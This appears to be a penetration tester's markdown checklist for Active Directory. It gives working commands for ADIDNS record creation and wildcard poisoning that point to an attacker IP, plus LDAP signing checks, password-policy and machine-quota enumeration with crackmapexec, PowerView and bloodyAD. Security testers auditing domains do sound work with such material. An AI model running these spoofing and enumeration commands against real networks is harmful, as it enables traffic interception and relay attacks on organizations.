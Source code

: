 #### Checking ADIDNS configuration 
ADIDNS stands for Active Directory integrated DNS. It is a feature that integrates DNS services with Active Directory and  leverages the security features of Active Directory, such as access control lists (ACLs), to secure DNS records.

ADIDNS can be abused using [Powermad](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1).

1. Check if you are able to modify (add) AD DNS names:
```
Get-ADIDNSZone -Credential $cred -Verbose
```
2. Create, configure the new DNS name that could be likely exploited for spoofing with Attacker's IP and enable it:
```
New-ADIDNSNode -DomainController dc1 -Node pc01 -Credential $cred -Verbose
$dnsRecord = New-DNSRecordArray -Type A -Data 10.10.13.37
Set-ADIDNSNodeAttribute -Node pc01 -Attribute dnsRecord -Value $dnsRecord -Credential $cred -Verbose
Enable-ADIDNSNode -DomainController dc1 -Node pc01 -Credential $cred -Verbose
```
3. Check the newly created DNS object and try to resolve it. **AD will need some time (~180 seconds) to sync LDAP changes via its DNS dynamic updates protocol**:
```
Get-ADIDNSNodeAttribute -Node pc01 -Attribute dnsRecord -Credential $cred -Verbose
Resolve-DNSName pc01
cmd /c ping -n 1 pc01
```
4. Clean up:
```
Remove-ADIDNSNode -DomainController dc1 -Node pc01 -Credential $cred -Verbose
```

- ADIDNS Poisoning (Wildcard Injection)
```
python dnstool.py -u 'my.domain.com\pentestuser' -p 'Passw0rd!' -r '*' --action query DC01.my.domain.com
python dnstool.py -u 'my.domain.com\pentestuser' -p 'Passw0rd!' -r 'wpad' --action query DC01.my.domain.com
```
#### Check Channel binding  and LDAP signing configuration
Channel Binding is a security mechanism used to associate a client and server session with a specific transport connection. It is used to mitigate Man-in-the-Middle Attacks by preventing attackers from replaying authentication tokens on different connections.

LDAP Signing is a feature in that requires LDAP communications to be digitally signed. It ensures that the LDAP data packets cannot be modified by unauthorized entities during transmission.

These two features can be checked using `LdapRelayScan`:

```
python3 LdapRelayScan.py -method BOTH -dc-ip 10.0.0.X -u domainuser1 -p badpassword2
```
#### Password Policy checking
This can be checked with crackmapexec:
```
crackmapexec smb $DC-IP -u 'user' -p 'password' --pass-pol
crackmapexec smb $DC-IP -u 'user' -k --pass-pol
```
#### Machine quota
```
#PowerView
Get-DomainObject -Identity my.domain.com -Properties ms-DS-MachineAccountQuota

#bloodyAD
bloodyad -d $DOMAIN -u $USER -p $PASSWORD --host $DOMAIN_CONTROLLER get object 'DC=acme,DC=local' --attr ms-DS-MachineAccountQuota

```